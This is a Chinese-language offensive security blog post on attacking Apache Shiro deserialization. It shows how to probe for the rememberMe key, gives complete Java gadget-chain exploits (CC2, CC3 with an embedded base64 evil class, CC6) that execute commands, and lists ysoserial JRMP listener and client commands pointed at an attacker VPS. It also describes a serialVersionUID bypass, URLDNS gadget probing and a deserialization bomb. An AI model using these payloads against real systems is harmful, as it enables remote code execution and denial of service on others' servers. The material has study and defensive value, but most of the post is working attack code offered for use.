







shiro的tricks
目录
探测Shiro Key的办法
在Shiro 反序列化rememberMe字段时，会经过这个方法。AbstractRememberMeManager#getRememberedPrincipals

正常的反序列化攻击途径是先从getRememberedSerializedIdentity方法中获取rememberMe的值，然后进行CBC填充，然后进行Base64解密 然后交给后面的convertBytesToPrincipals进行aes解密并将结果反序列化。
key不对
当反序列化时，rememberMe的key不对，会导致aes解密失败，产生报错被下面的catch块接收到抛出异常，我们看看catch块里面的onRememberedPrincipalFailure函数是什么
逐步跟进

跟进后发现forgetIdentity 获取了request、response对象并交给另一个重构方法处理

跟进后再跟进removeFrom

发现在返回头里加了cookie：rememberMe=deleteMe

key正确
key正确，在一般的利用情况下依旧会被AbstractRememberMeManager#getRememberedPrincipals 接受异常并抛出，究其原因，是在反序列化时代码中使用了强制类型转换，而我们攻击时序列化的类是无法转换为 PrincipalCoolection。

但是如果我们序列化的类是PrincipalCollection的可反序列化子类，那么当key正确时响应头将不会有Set-Cookie: rememberMe=deleteMe，key不正确时则会有，便可以以此为基准检测key是否正确。
探测基准
那么总结一下上面的两种情况，要想达到只依赖shiro自身进行key检测，只需要满足两点：
1.构造一个继承 PrincipalCollection 的序列化对象。
2.key正确情况下不返回 deleteMe ，key错误情况下返回 deleteMe 。
那么现在就存在类SimplePrincipalCollection，其继承自PrincipalCollection且可被反序列化，那么我们就可以用这个类来探测key了。


Shiro CC链相关问题
shiro中反序列化重写了resolveClass，不能处理数组，所以一些cc链在shiro中用就会有问题。
无数组改造
能改造成无数组形式的CC链只有 cc2、cc3、cc6
cc2
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class Main {
public static void main(String[] args) throws Exception{
Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
constructor.setAccessible(true);
InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
TransformingComparator Tcomparator = new TransformingComparator(transformer);
PriorityQueue queue = new PriorityQueue(1);
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
//cc.writeFile();
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "blckder02");
setFieldValue(templates, "_class", null);
Object[] queue_array = new Object[]{templates,1};
Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
queue_field.setAccessible(true);
queue_field.set(queue,queue_array);
Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
size.setAccessible(true);
size.set(queue,2);
Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
comparator_field.setAccessible(true);
comparator_field.set(queue,Tcomparator);
try{
ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2.bin"));
outputStream.writeObject(queue);
outputStream.close();
ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2.bin"));
inputStream.readObject();
}catch(Exception e){
e.printStackTrace();
}
}
public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
final Field field = getField(obj.getClass(), fieldName);
field.set(obj, value);
}
public static Field getField(final Class<?> clazz, final String fieldName) {
Field field = null;
try {
field = clazz.getDeclaredField(fieldName);
field.setAccessible(true);
}
catch (NoSuchFieldException ex) {
if (clazz.getSuperclass() != null)
field = getField(clazz.getSuperclass(), fieldName);
}
return field;
}
}
cc3
package com.shiroTest;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
public class CC3 {
public byte[] getPayload2() throws Exception{
byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAhTGNvbS9UZW1wbGFzdGVzSW1wbFRlc3QvY29kZVRlc3Q7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACUBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgcAJgEAClNvdXJjZUZpbGUBAA1jb2RlVGVzdC5qYXZhDAAZABoHACcMACgAKQEABGNhbGMMACoAKwEAH2NvbS9UZW1wbGFzdGVzSW1wbFRlc3QvY29kZVRlc3QBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAPwAAAAMAAAABsQAAAAIACgAAAAYAAQAAABEACwAAACAAAwAAAAEADAANAAAAAAABAA4ADwABAAAAAQAQABEAAgASAAAABAABABMAAQAHABQAAgAJAAAASQAAAAQAAAABsQAAAAIACgAAAAYAAQAAABYACwAAACoABAAAAAEADAANAAAAAAABAA4ADwABAAAAAQAVABYAAgAAAAEAFwAYAAMAEgAAAAQAAQATAAEAGQAaAAIACQAAAEAAAgABAAAADiq3AAG4AAISA7YABFexAAAAAgAKAAAADgADAAAAGAAEABkADQAaAAsAAAAMAAEAAAAOAAwADQAAABIAAAAEAAEAGwABABwAAAACAB0=");
TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates,"_bytecodes",new byte[][]{bytes});
setFieldValue(templates,"_name","dwa");
setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
Transformer transformers = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
HashMap<Object, Object> map = new HashMap<>();
Map<Object,Object> lazymap = LazyMap.decorate(map, new ConstantTransformer(1));
//第一个参数的map
// get方法中调用的是map.get
// 目的是调用lazyMap中的get方法 所以第一个参数是lazyMap
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter"));
HashMap<Object, Object> map2 = new HashMap<>();
//hashMap的readObject时会调用hash方法
// 然后key.hashCode() 会调用key的hashCode方法 key的值为tiedMapEntry
//调用tiedMapEntry的hashCode然后待用getValue方法 然后调用get方法
map2.put(tiedMapEntry, "sss");
lazymap.remove(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter"));
Class c = LazyMap.class;
Field factoryField = c.getDeclaredField("factory");
factoryField.setAccessible(true);
factoryField.set(lazymap,transformers);
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
objectOutputStream.writeObject(map2);
objectOutputStream.close();
return barr.toByteArray();
}
public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
Field field = obj.getClass().getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj,value);
}
}
cc6
package org.payload.cc.CC6;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.Tools.ClassTools;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.*;
import static org.Tools.ClassTools.setFieldValue;
public class CommonsCollections6TemplatesImpl {
public Map CommonsCollections6TemplatesImpl(String args) throws Exception {
ClassTools ct = new ClassTools();
byte[] evilClass = ct.MakeEvilClass("org.Tools.evilclass.EvilClass");
//byte[] evilClass = evilClass2("java.lang.Runtime.getRuntime().exec(\""+args+"\");");
TemplatesImpl tmp = ct.template(evilClass);
InvokerTransformer transformer = new InvokerTransformer("toString", null, null);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformer);
TiedMapEntry tme = new TiedMapEntry(outerMap, tmp);
Map expMap = new HashMap();
expMap.put(tme, "valuevalue");
outerMap.clear();
setFieldValue(transformer, "iMethodName", "newTransformer");
return expMap;
}
public static byte[] CommonsCollections6TemplatesImplPayload(String args) throws Exception {
ClassTools ct = new ClassTools();
CommonsCollections6TemplatesImpl commonsCollections6Templates = new CommonsCollections6TemplatesImpl();
Object evil = commonsCollections6Templates.CommonsCollections6TemplatesImpl(args);
return ct.serial(evil);
}
public static void main(String[] args) throws Exception {
byte[] evilByteClass = CommonsCollections6TemplatesImplPayload("calc.exe");
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(evilByteClass));
ois.readObject();
}
}
JRMP信道
当然，如果JRMP联通了，直接走JRMP通道拿啥都可以打了
vps上执行以下命令，监听端口
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 12006 CommonsCollections5 'calc'
我们再通过ysoserial生成payload
java -jar ysoserial-master-SNAPSHOT.jar JRMPClient 'vps_ip:12006'|base64|sed ':label;N;s/\n//;b label'
然后伪造cookie，发过去，成功弹计算器

Serialize UID不一致绕过
在攻击时，如果构造的序列化对象SUID和目标上的对象SUID不一致，则无法完成反序列化抛出错误。 核心检测代码如下
// SUID检查条件：是否都或都没有实现了Serializable接口 && 不是数组类 && suid不相同
if (serializable == localDesc.serializable &&
!cl.isArray() &&
suid.longValue() != localDesc.getSerialVersionUID())
{
throw new InvalidClassException(localDesc.name,
"local class incompatible: " +
"stream classdesc serialVersionUID = " + suid +
", local class serialVersionUID = " +
localDesc.getSerialVersionUID());
}
- 动态生成一个A类不实现Serializable接口进行序列化。如果线上的A类是实现Serializable接口，第一个条件就不成立了直接绕过。如果线上的Class没有实现改接口，则两者suid都为0L,第三个条件不符合，自然无需检查。
- 直接序列化A[].class，第二个条件直接不符合，直接不用检查SUID，无需关心实现实现Serializable接口。
有反序列化点，探测存在的Gadget
URLDNS
URLDNS链有如下代码
// java.util.HashMap#readObject
private void readObject(java.io.ObjectInputStream s)
throws IOException, ClassNotFoundException
{
......
// Read the keys and values, and put the mappings in the HashMap
for (int i = 0; i < mappings; i++) {
@SuppressWarnings("unchecked")
K key = (K) s.readObject();
@SuppressWarnings("unchecked")
V value = (V) s.readObject();
putVal(hash(key), key, value, false, false);
}
}
}
当解析HashMap时，正常情况下会解析key中的对象，如果key时URL对象则会对其指定的DNS地址进行一次解。 但是若HashMap里key对应的value的对象不存在，就无法被反序列化，则会抛出错误，导致后面的DNS解析失败。
所以就可以以此为基准探测目标环境是否存在某个Class来推测目标环境是否存在某Gadget：若Gadget存在则会产生DNS解析，反之则不会产生DNS解析。
反序列化炸弹
通过构造特殊的多层嵌套HashSet，导致服务器反序列化的时间复杂度提升，消耗服务器所有性能，导致拒绝服务。在这个基础上，我选择消耗部分性能达到间接延时的作用，来探测class。

由于每个服务器的性能不一样，要想让它们延时时间相同，就需要调整反序列化炸弹的深度。所以在使用该gadget时，要先测试出深度，一般最好调整到比正常请求慢10秒以上。经过我的实战一般这个深度都在25到28之间，切记不要设置太大否则造成DOS。